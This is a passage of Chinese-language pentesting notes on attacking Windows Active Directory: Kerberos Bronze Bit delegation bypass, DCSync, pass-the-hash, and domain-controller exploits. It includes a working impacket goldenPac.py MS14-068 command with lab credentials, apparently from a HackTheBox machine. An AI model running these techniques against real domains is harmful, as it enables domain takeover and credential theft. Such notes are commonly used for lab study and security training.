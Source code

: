 总结条件：
1、攻击者拥有(将该机器加入域的账户、机器本身、管理员）身份之一，多数为前两者。
2、存在相关主机（也就是横向 or  提权目标）

应用场景为：提权、有其他主机被当前用户拉入域内的横向移动。

#### kerberos Bronze Bit（打委派的时候记得尝试）

这个漏洞可以绕过不允许委派的敏感账户进行委派，getst.py后加上-force-forwardable参数即可

## 6、DCSYNC

利用域控的复制，获取所有账号密码

## 7、PTH

PTH存在限制，默认情况下，由于UAC的存在，只有本地管理员和域管理员组用户可以直接PTH。


## 8、域内漏洞

1、MS14-068

梭哈，域内普通用户主机直接打域控

```
方案一：impacket

apt-get install krb5-user -y

python ../impacket/examples/goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james:'J@m3s_P@ssW0rd!'@MANTIS.htb.local

报错解决方案
https://note.f5.pm/go-37050.html



方案二：
Metasploit

方案三：
PyKEK 工具包 
当前kali环境没成功过
```



2、zerologon

梭哈，域外直接打域控，走135端口

3、windows print spooler

域内普通用户，上线CS
